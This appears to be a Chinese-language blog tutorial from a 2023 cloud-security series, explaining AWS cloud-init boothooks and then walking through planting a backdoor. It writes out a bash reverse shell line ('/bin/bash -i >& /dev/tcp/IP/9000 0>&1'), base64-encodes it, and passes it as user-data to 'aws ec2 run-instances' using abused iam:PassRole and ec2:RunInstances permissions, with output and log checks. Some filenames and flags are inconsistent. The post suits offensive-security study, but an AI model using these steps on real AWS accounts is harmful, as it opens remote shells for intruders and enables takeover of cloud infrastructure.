 ```yaml
---
author: Sunny Tsai
title: "[Day 26] 天堂雲端 - reverse shell via credential"
date: 2023-10-08
math: true
tags: [
    "aws",
    "reverse shell"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

# AWS CloudInit
cloud-init package是Canonical建構的開源應用程式，用於引導在雲端環境中的Linux image。[AWS CloudInit](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/amazon-linux-ami-basics.html#amazon-linux-cloud-init)是一種用於自動化EC2 instance初始化和設置的工具，可以在EC2 instance啟動過程中執行各種初始化任務。

## AWS Cloud Boothook
AWS Cloud Boothhook是用於EC2 instance啟動期間執行自定義命令的機制。具體來說，boothook是cloudinit配置的一部份，主要用於：
* 自定義初始化行為
* 自動化任務

# Reverse shell

## Build reverse shell code
建立reverse shell，這裡用bash做示範
backdoor.sh
```bash
#!/bin/bash
echo "Hello World" >> hello.txt
/bin/bash -i >& /dev/tcp/IP/9000 0>&1   # Revese shell範例
```

backdoor_encoded.sh
```shell
base64 -i blackdoor.sh > blackdoor_encoded.sh   # 這是Mac的寫法
```

-----


## 啟動新的EC2 instance
攻擊者已經獲取合法有限權限，其中包括啟動新實例所需的權限。
> iam:PassRole
> ec2:RunInstances


```shell
> aws ec2 run-instances \
  --image-id ami-xxxxxxxxxxxxxxxxx \
  --instance-type t2.micro \
  --key-name YourKeyPairName \
  --key-name SSHKey \
  --user-data file://backdoor_encoded.sh \
  --security-group-ids SecurityGroup
```

ssh key一定要寫，要不然建完發現進不去...

Output:
```json
{
    "Groups": [],
    "Instances": [
        {
            "AmiLaunchIndex": 0,
            "ImageId": "ami-XXXXXXXXXXXXX",
            "InstanceId": "i-XXXXX",
            "InstanceType": "t2.micro",
            "LaunchTime": "Date",
            "Monitoring": {
                "State": "disabled"
            },
            "Placement": {
                "AvailabilityZone": "XXXXXXX",
                "GroupName": "",
                "Tenancy": "default"
            },
            "PrivateDnsName": "....",
            "PrivateIpAddress": ".....",
            "ProductCodes": [],
            "PublicDnsName": "",
            "State": {
                "Code": 0,
                "Name": "pending"
            },
:...skipping...
```
有正常的輸出代表建立EC2成功

## 測試
bash內容有寫入資料到hello.txt，可以先查看這個檔案有沒有資料

或是

```shell
這裡儲存著cloud-init的log
tail /var/log/cloud-init.log
```

```
這裡儲存cloud-init 輸出log
tail /var/log/cloud-init-output.log
```
